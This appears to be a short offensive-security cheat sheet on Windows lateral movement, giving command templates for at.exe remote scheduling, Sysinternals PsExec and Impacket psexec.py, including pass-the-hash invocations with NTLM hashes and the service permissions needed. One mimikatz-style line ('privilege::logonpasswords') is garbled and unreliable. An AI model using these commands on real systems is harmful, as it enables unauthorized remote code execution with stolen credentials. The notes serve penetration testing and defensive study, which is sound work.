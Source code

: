 ### at.exe
```cmd
at \\<host> <time> <command/payload>
```

-------------------------------------------

# PsExec

## Microsoft Sysinternals Suite

Allows the execution of interactive commands over SMB using named pipes. 
* Connects to $ADMIN share
* Uploads a psexesvc.exe file. 
* Uses service control manager (sc) to start the service binary.
* Creates named pipe on destination host.
* Uses pipe for I/O operations.

### Normal usage
```cmd
PsExec.exe /accepteula \\<dest> -u <domain>\<user> -p <password> command
```

### Pass the hash
```cmd
privilege::logonpasswords
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>
PsExec.exe /accepteula \\<dest> command
```

## Impacket Toolsuite
Fails with interactive binaries such as powershell, vssadmin, plink etc. Uploads a service binary with an arbitrary name.

## Normal usage
```bash
python psexec.py user:password@<host> command
```

## Pass the hash
```bash
python psexec.py -hashes <hash> user@<host> command
```

## Manual PsExec behavior with sc

### Requirements
* Port 139,445 open on target machine.
* Password or NTLM hash.
* Write permissions on network share.
* Permission to create services on the remote machine: **SC_MANAGER_CREATE_SERVICE**
* Permission to start created service: **SERVICE_QUERY_STATUS + SERVICE_START**
